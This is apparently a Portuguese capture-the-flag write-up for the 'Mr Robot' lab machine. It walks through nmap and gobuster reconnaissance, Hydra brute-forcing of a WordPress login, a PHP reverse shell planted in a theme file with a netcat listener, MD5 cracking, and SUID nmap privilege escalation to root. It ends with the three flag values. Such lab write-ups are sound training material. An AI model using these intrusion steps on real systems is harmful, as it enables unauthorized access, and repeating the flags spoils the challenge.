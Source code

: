   GNU nano 8.0                                                                                                      Mr_robot                                                                                                                
Resultado nmap:
Comando utilizado: nmap -sV -sC -oA scans/initial 10.10.165.155

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 13:57 EDT
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.165.155
Host is up (0.24s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache

Utilizando Gobuster, foi possível realizar um brute force de diretórios web no site que estamos atacando.
Comando utilizado:
gobuster dir -u http://10.10.165.155 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -q -o gobuster.txt

Diretórios encontrados:
/images               (Status: 301) [Size: 236] [--> http://10.10.165.155/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.165.155/blog/]
/sitemap              (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 235] [--> http://10.10.165.155/video/]
/login                (Status: 302) [Size: 0] [--> http://10.10.165.155/wp-login.php]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/]
/0                    (Status: 301) [Size: 0] [--> http://10.10.165.155/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/]
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.165.155/wp-content/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/atom/]
/image                (Status: 301) [Size: 0] [--> http://10.10.165.155/image/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.165.155/admin/]
/audio                (Status: 301) [Size: 235] [--> http://10.10.165.155/audio/]
/intro                (Status: 200) [Size: 516314]
/css                  (Status: 301) [Size: 233] [--> http://10.10.165.155/css/]
/wp-login             (Status: 200) [Size: 2613]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.165.155/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://10.10.165.155/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.165.155/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.165.155/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.165.155/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.165.155/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.165.155/]
/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.165.155/wp-admin/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.165.155/0000/]
 
Acessando o diretório do Robots.txt, encontramos dois arquivos no qual não eram para ser indexados ao procurar eles no google. Primeiro arquivo: Key.1-3.txt, contendo a primeira flag
do desafio, e o arquivo fsocity.dic, contendo várias palvras aleatórias
 
Acessando o diretório /wp-login.php, acessamos uma página de login do Wordpress, então, utilizei a ferramenta Hydra para realizar um ataque de bruteforce para ver se era possível
capturar alguma informação utilizando o arquivo fsocity.dic que foi disponobilizado pelo site.
 
Comando utilizado: hydra -L fsocity.dic -p test 10.10.165.155 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30
Com esse comando, o nome de usuário: Elliot, foi encontrado
 
Reutilizando o comando da ferramenta Hydra, porém deixando o nome de usuário Elliot como um dado salvo e adicionando o arquivo .dic para dar um brute force nas senhas,
descobri a senha de usuário:
[80][http-post-form] host: 10.10.165.155   login: Elliot   password: ER28-0652
 
Com este usuário e senha do WP, podemos realizar um reverse shell.
Comando utilizado para abrir um nc: rlwrap nc -lvnp 53
 
Modifiquei o tema do wordpress na pasta Twenty Fifteen: Archives (archive.php) e coloquei um reverse shell que eu encontrei no github do autor pentestmonkey https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-she>
Após colar isso e modificar o tema, entrei na aba http://10.10.165.155/wp-content/themes/twentyfifteen/archive.php e consegui acesso do sistema.
 
Acessando a máquina e indo no diretório /home/robot/ foi encontrada a segunda key do desafio, porém ela não pode ser lida sem ter previlégios, mas outro arquivo suspeito está no mesmo diretório, que é o password-raw.md5, contendo uma s>
 
Utilizando a ferramenta john, realizei um cracker de password em md5 e encontrei a senha = abcdefghijklmnopqrstuvwxyz
Comando utilizado: john md5.hash --wordlist=fsocity.dic --format=RAW-MD5
Com essa senha, temos como realizar o login de root no sistema.
Segunda flag do desafio encontrada na pasta /robot
 
Para achar a última flag, primeiramente utilizei o python para deixar um terminal completo para mim: python -c 'import pty;pty.spawn("/bin/bash")'
Após isso, fiz uma escalação de previlégios nos arquivos que apresentam o bit suid na máquina, utilizando o comando: find / -perm +6000 2>/dev/null | grep '/bin'
Pode notar que o nmap está instalado na máquina, no qual apresenta bit SUID instalado, com isso, descobri que o nmap apresenta um modo interativo utilizando:
nmap --interactive. Acessei o site https://gtfobins.github.io/gtfobins/nmap/#shell e coloquei o comando nmap> !sh para conseguir interagir com o terminal, dentro dele,
uma pasta /root é mostrada, e dentro dela, está nossa última flag do desafio.
 
flag {073403c8a58a1f80d943455fb30724b9}
flag {822c73956184f694993bede3eb39f959}
flag {04787ddef27c3dee1ee161b21670b4e4}

